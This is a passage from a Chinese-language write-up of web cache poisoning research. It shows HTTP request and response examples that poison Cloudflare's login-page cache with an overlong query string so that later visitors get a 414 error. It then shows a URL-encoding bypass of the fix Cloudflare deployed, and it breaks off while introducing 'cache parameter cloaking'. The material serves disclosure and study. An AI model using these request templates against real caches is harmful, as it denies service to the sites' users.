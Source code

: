 ```
GET /login?x=very-long-string... HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/
```

这样，当下一个用户访问这个登录页面时，就会被重定向到我们投毒的地址去

```
GET /login HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/

HTTP/1.1 301 Moved Permanently
Location: /login/?x=very-long-string...

```

由于我们投毒的query字符串已经达到了url的最大长度，而这次重定向会多一个`/`，这就导致超出了url允许的最大长度，结果就是服务器不会接受这样一个请求

```
GET /login/?x=very-long-string... HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: MISS

```

当我把这个问题提交给Cloudflare时，一开始他们只打算在自己的站点上修复这个问题，但是考虑到使用他们产品的用户太多了，所以，他们采用了全局的防御措施——他们禁用了那些直接将query字符串回显到location头的缓存

可是，这很容易就被绕过了…

```
GET /login?x=%6cong-string… HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=long-string…
CF-Cache-Status: HIT

```

虽然这个问题已经被修复，但是如果你发现其他服务器在把一个query字符串放到location头中前进行了一些其他的转换操作，你仍然有机会绕过防御



## 缓存参数隐藏

目前为止，我们看到的都是把整个query字符串从cache key去除会造成漏洞。那么如果一个站点只是把某个特定的参数从cache key中去除掉会带来什么后果呢？

理论上，只要一个站点不把整个url回显到响应中就不会有啥问题。但是，在实操的时候，由于站点采用的各种奇奇怪怪的把特定参数从cache key中去除的方法，导致，我们可以方法来污染缓存，我把这种攻击叫做cache parameter cloaking。

例如有这样一个站点，它采用如下正则把参数`_`从cache key中移除：
